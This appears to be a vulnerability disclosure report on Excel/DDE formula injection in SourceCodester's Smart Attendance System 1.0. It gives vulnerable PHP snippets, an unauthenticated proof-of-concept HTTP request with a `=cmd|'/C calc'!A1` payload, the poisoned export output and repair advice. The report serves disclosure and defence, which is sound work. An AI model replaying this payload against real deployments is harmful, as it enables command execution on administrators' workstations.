

# SourceCodester Smart Attendance System with QR Code Scanner 1.0 /student_signup.php full_name= Excel Formula Injection

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18702/smart-attendance-system-qr-code-scanner-phpmysql.html
- https://www.sourcecodester.com/download-code?nid=18702

## Overview

- Smart Attendance System with QR Code Scanner, version 1.0 (current public download, 2026-11), lets unauthenticated visitors self-register through `/student_signup.php` with no validation on the `full_name` field. The administrator-facing Excel export `/export_students.php` renders each student as an HTML-table `.xls` workbook; the `student_code` cell is protected with an Excel text format (`mso-number-format:'\@'`), but the `full_name`, `email`, `course`, and `section` cells are not — so a name beginning with `=` survives into the workbook as a live Excel formula. A student (or anyone on the internet) can plant a DDE formula that executes when an administrator opens the exported roster.

## Details

- Vulnerable files: `/student_signup.php` (unauthenticated injection point) → `/export_students.php` (formula sink)
- Affected version: 1.0 (current public download, 2026-11)
- Self-registration stores the name raw — no validation, no escaping at input:

```php
// student_signup.php:9-21
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $code = trim($_POST['student_code']);
    $name = trim($_POST['full_name']);
    ...
    $stmt = $pdo->prepare("INSERT INTO students (student_code, full_name, email, course, section) VALUES (?, ?, ?, ?, ?)");
    $stmt->execute([$code, $name, $email, $course, $section]);
```

- The export forces text format for the ID column only — the author knew about formula evaluation but protected one column; the adjacent `full_name` cell has no text-format marker, and `htmlspecialchars` escapes quotes only, leaving the leading `=` intact:

```php
// export_students.php:79-80
<td style="mso-number-format:'\@'"><?= htmlspecialchars($row['student_code']) ?></td> <!-- Force Text Format for ID -->
<td><?= htmlspecialchars($row['full_name']) ?></td>
```

## Description

- The self-registration form is public (it is the product's student onboarding page), so the attacker needs no account at all: they register with `full_name` = `=cmd|'/C calc'!A1` (or any DDE/WEBSERVICE formula payload). When an administrator later exports the roster and opens the workbook in Excel, the cell content is evaluated as a formula, yielding code execution on the administrator's workstation. The HTML escaping in the export does not help: `=`, `|`, and `/` pass through untouched, and Excel's HTML import decodes `&#039;` back to `'` before evaluating. This is the same stored-input → export-sink pattern as CSV formula injection, with the workbook as the delivery vehicle.

## PoC

- Step 1 — unauthenticated registration with the formula payload (no cookie):

```
POST /student_signup.php HTTP/1.1
Host: 127.0.0.1:8142
Content-Type: application/x-www-form-urlencoded

student_code=POC-2026-01&full_name==cmd|'/C+calc'!A1&course=BSIT&section=1-A&email=formula@poc.local
```

- Response: `Registration Successful!`

- Step 2 — the administrator downloads `/export_students.php` (saved as `poc/F05-export-artifact.xls`). The poisoned row inside the workbook:

```html
<td style="mso-number-format:'\@'">POC-2026-01</td> <!-- Force Text Format for ID -->
<td>=cmd|&#039;/C calc&#039;!A1</td>
```

- The whole artifact contains exactly 2 `mso-number-format` occurrences (the CSS rule + the ID cells) — the `full_name` cell carries none, so Excel evaluates `=cmd|'/C calc'!A1` as a DDE formula on open.

## Payload

```
full_name==cmd|'/C calc'!A1
```

(URL-encoded as `full_name==cmd|'/C+calc'!A1`)

## Screenshot: the formula survives intact into the exported workbook

The exported `.xls` (an HTML-table workbook) opened as text; the `full_name` cell holds the raw `=cmd|'/C calc'!A1` payload with no text-format protection, directly beneath the protected ID cell that demonstrates the author's inconsistent hardening.



Full evidence log: `poc/F05-excel-formula-injection.txt` (+ raw artifact `poc/F05-export-artifact.xls`).

## Suggested repair

1. Prefix a neutral character to any exported string beginning with `=`, `+`, `-`, `@`, tab, or CR (or set the Excel text format on every cell, not just the ID).
2. Validate self-registration input server-side: reject formula-leading characters in `full_name`/`email`, and constrain course/section to the shipped option lists.
3. Export real `.xlsx` (e.g. PhpSpreadsheet) with explicit string typing instead of HTML-table `.xls`.
4. Consider removing public self-registration or moderating registrations before they enter admin-visible datasets.

## Dedup note

- Related prior art: CVE-2026-95957 / VulDB VDB-408556 — XSS via `full_name` in `student_signup.php`. Same file and parameter, but a different vulnerability type (CWE-1236 Excel formula injection vs CWE-79 XSS) and a different sink (the exported workbook vs browser rendering); this report deliberately cites the CVE as related prior art rather than duplicating it (checked 2026-11-09).
- NVD: no formula/CSV-injection entry exists for this product. VulDB: no such entry beyond VDB-408556. New entry.
